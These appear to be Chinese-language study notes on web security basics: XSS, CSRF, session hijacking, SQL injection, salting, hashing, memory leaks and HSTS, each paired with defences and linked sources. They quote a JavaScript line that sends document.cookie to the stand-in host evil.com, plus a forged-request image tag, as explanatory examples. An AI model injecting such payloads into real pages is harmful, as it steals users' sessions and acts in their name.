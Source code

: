## xss

---

Cross-Site Scripting 往页面注入恶意代码, 可以获得 cookie 等, 例如:

```JavaScript
(new Image()).src="evil.com/cookie?c="+document.cookie
```

[代码来自 mdn](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Cookies#会话劫持和XSS)

### 攻击形式

- 存储型
- 反射型
- DOM 型

### 预防方法

- 输入过滤
- 纯前端渲染
- 转义 HTML
- 注意 DOM API 的使用
- Content Security Policy
- 内容长度控制

> [来源](https://tech.meituan.com/2018/09/27/fe-security.html)

## csrf

---

cross-site request forgery, 跨站请求伪造, 俗话说就是盗用身份, 以用户名义发送恶意请求

- 登录网站 A, 生成 cookie
- 在 cookie 没有过期的时间访问危险网站 B
- 网站使用你的 cookie 发送请求, 例如`<img src="bank.com/dosomething">`

### 防御手段

- cookie hashing
- 验证码
- token, 就是隐藏一个 token, 提交时要带上它, 其实这些防爬虫也用
- [samesite strict](https://www.ruanyifeng.com/blog/2019/09/cookie-samesite.html)

> [来源](https://www.cnblogs.com/hyddd/archive/2009/04/09/1432744.html)

> [【网络安全】CSRF 攻击详解](https://www.cnblogs.com/54chensongxia/p/11693666.html) 关于如何防范攻击更为详细

## 会话劫持

---

执行中间人攻击, 例如污染中间链路设备, 可以更改 HTTP 内容, 污染 dns 解析等

### 解决方案

- csp, 指定每种资源的 URL 白名单规则

- 迁移到 https 上

> [来源](https://juejin.im/entry/5bcec8e2518825102423e391)

## sql 注入

---

登录注册的时候改变数据库

> [来源](https://www.jianshu.com/p/078df7a35671)

## 常用编码

---

### md5

输入不定长度信息, 输出 128 bits 16 字节的算法, 如果要找到相同的 md5 码需要计算 2^64 次

- [**加盐**](https://blog.csdn.net/blade2001/article/details/6341078)
  - 注册时, 密码和一个随机的 salt 值字符串连接然后 md5 散列
  - 登录时, 密码和之前分配的 salt 连接然后 md5 散列, 看两个哈希值是否一致
  - 可以防止通过哈希值利用 md5 散列值字典找到密码
  - 可以防止拖库后用彩虹表反推出来

> [来源](https://zh.wikipedia.org/wiki/MD5)

> [加盐密码保存的最通用方法是？](https://www.zhihu.com/question/20299384)

### 彩虹表

能够反推 hash 值的一种算法

> [来源](https://www.jianshu.com/p/732d9d960411)

### base64

把 3 个 8 位字节（3x8=24）转化为 4 个 6 位的字节（4x6=24）, 若是最后不足三个字节用 0 填充, 所以会有`=`号

可用来图片编码

> [来源](https://www.jianshu.com/p/f39a54826de5)

### hash

- SHA-1 哈希值, 生成 20 字节的消息摘要

> [来源](https://zhuanlan.zhihu.com/p/37165658)

### UUID

通用唯一标识码, 重复的几率接近为 0

> [来源](https://zh.wikipedia.org/wiki/%E9%80%9A%E7%94%A8%E5%94%AF%E4%B8%80%E8%AF%86%E5%88%AB%E7%A0%81)

### JWT

## 内存泄漏

---

指变量占用内存却没有回收, 有以下几种情况

- 在函数内声明了全局变量
- 计时器与回调函数中的对象引用
- DOM 节点存储

> [来源](https://github.com/wengjq/Blog/issues/1)

### 检测内存泄漏的方法

- Memory, 可以拍摄快照
- record heap allocation
- chrome 的任务管理器

> [来源](https://juejin.im/post/5b20d9456fb9a01e554c112c)

> [JS 内存泄漏排查方法](https://cloud.tencent.com/developer/article/1444558)

## HSTS

HTTP 严格传输安全(HTTP Strict Transport Security), 让浏览器强制使用 HTTPS 来与网站通信

- 当用户使用 http 访问网站时, 浏览器应自动将 http 改为 https(前提是有过一次连接)
- 如果服务器的 ca 证书失效, 用户不能忽视浏览器警告访问网站

> [来源](https://zh.wikipedia.org/wiki/HTTP%E4%B8%A5%E6%A0%BC%E4%BC%A0%E8%BE%93%E5%AE%89%E5%85%A8)
